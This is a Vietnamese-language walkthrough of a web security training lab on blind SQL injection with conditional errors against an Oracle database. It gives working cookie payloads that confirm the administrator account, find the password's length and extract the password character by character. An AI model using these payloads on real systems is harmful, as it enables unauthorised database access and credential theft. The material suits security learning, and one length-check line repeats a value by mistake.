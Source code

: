 # Blind SQL injection with conditional errors

##### Trang web chứa lỗ hổng SQL injection dạng Blind khi phân tích và thực hiện truy vấn SQL bằng cookie theo dõi (tracking cookie), trong câu truy vấn có chứa giá trị của cookie đã gửi. Kết quả của lệnh truy vấn SQL không được hiển thị, và cũng không còn các thông báo như lab trước. Tuy nhiên, khi câu truy vấn hệ thống thực thi gặp lỗi, sẽ trả về response error. Chúng ta cần khai thác lỗ hổng nhằm tìm kiếm mật khẩu tài khoản administrator, biết rằng trong cơ sở dữ liệu chứa bảng users, gồm cột username và password.

##### Hint: Trang web này sử dụng cơ sở dữ liệu Oracle

Chúng ta có thể khai thác lỗ hổng Blind SQL injection bằng cách kích hoạt các điều kiện xảy ra lỗi trong chính câu truy vấn. Để hiểu rõ hơn về phương pháp tấn công này, chúng ta cùng xem xét và phân tích 2 câu truy vấn sau:

- **`(SELECT CASE WHEN (1=1) THEN 1/0 ELSE 'a' END)='a'`**
- **`(SELECT CASE WHEN (1=2) THEN 1/0 ELSE 'a' END)='a'`**

Từ khóa **CASE** có thể được hiểu giống như cấu trúc rẽ nhánh **switch-case**: Khi điều kiện sau **WHEN** đúng, **CASE** nhận giá trị (1/0), ngược lại nhận giá trị còn lại (sau **ELSE**). Điều thú vị ở đây là khi thực thi biểu thức (1/0) sẽ gây ra lỗi "chia cho 0", có thể khiến response trả về error. Từ đây, trạng thái response có thể giúp chúng ta xác định tính đúng sai của biểu thức trong **WHEN**. Lưu ý, với từng hệ cơ sở dữ liệu có các cú pháp khác nhau:

| database management system | Conditional errors syntax |
| -------- | -------- |
| **Oracle** | `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN TO_CHAR(1/0) ELSE NULL END FROM dual` |
| **Microsoft** | `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/0 ELSE NULL END` |
| **PostgreSQL** | `1 = (SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN CAST(1/0 AS INTEGER) ELSE NULL END)` |
| **MySQL** | `SELECT IF(YOUR-CONDITION-HERE,(SELECT table_name FROM information_schema.tables),'a')` |

Bài lab này cho ta biết được trang web sử dụng cơ sở dữ liệu Oracle nên ta sẽ thay đổi biến `TrackingID` trong phần **Cookie** có dạng kiểu như sau: **`SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN TO_CHAR(1/0) ELSE NULL END FROM dual`**

- Trước tiên mình thử thêm kí tự `'` và phần `TrackingID` và gửi request đi thì kết quả trả về lỗi

![](https://cdn.discordapp.com/attachments/1124588087931043891/1136682781989158932/image.png)

- Ta sẽ kết hợp sử dụng `TrackingId=xyz'||(SELECT ...)||'` 
    - Toán tử || cho phép nối chuỗi dữ liệu và kết quả truy vấn.
    - Cặp dấu ngoặc đơn () được sử dụng để nhóm các điều kiện hoặc phép tính lại với nhau.

- Ta sử dụng câu truy vấn sau để check xem trong bảng **users** có `administrator` không:
`'||(SELECT CASE WHEN 1=1 THEN TO_CHAR(1/0) ELSE NULL END FROM users WHERE username='administrator')||'`

![](https://cdn.discordapp.com/attachments/1124588087931043891/1136685371707625502/image.png)

Yêu cầu trả về Error vậy là có `administrator`.

- Tiếp theo ta sử dụng câu lệnh sau để kiểm tra xem có bao nhiêu kí tự trong `password` của `administrator`:
    - `TrackingId=xxx'||(SELECT CASE  WHEN LENGTH(password)>1 THEN TO_CHAR(1/0) ELSE NULL END FROM users WHERE username='administrator')||'`
    - `TrackingId=xxx'||(SELECT CASE  WHEN LENGTH(password)>2 THEN TO_CHAR(1/0) ELSE NULL END FROM users WHERE username='administrator')||'`
    - `TrackingId=xxx'||(SELECT CASE  WHEN LENGTH(password)>1 THEN TO_CHAR(1/0) ELSE NULL END FROM users WHERE username='administrator')||'`
    ...
Nếu yêu cầu trả về error nghĩa là điều kiện trên đã đúng, tiếp tục thử cho đến khi yêu cầu không trả về error và ta sẽ biết được có 20 kí tự bên trong `password` của `administrator`

![](https://cdn.discordapp.com/attachments/1124588087931043891/1136687191356088442/image.png)

Tiếp theo ta sử dụng câu lệnh sau để tìm ra từng kí tự bên trong `password` của `administrator`:
- `TrackingId=xxx'||(SELECT CASE  WHEN SUBSTR(password,1,1)='a' THEN TO_CHAR(1/0) ELSE NULL END FROM users WHERE username='administrator')||'`( ta lần lượt so sánh với tất cả bảng chữ cái và chữ số cho đến khi ra yêu cầu Error thì đó chính là 1 kí tự của mật khẩu)
- Tiêp theo thay đổi hàm **SUBSTR(password,2,1); SUBSTR(password,3,1); ...; SUBSTR(password,20,1)** và làm giống như trên ta sẽ có đc mật khẩu và **Solve lab**.

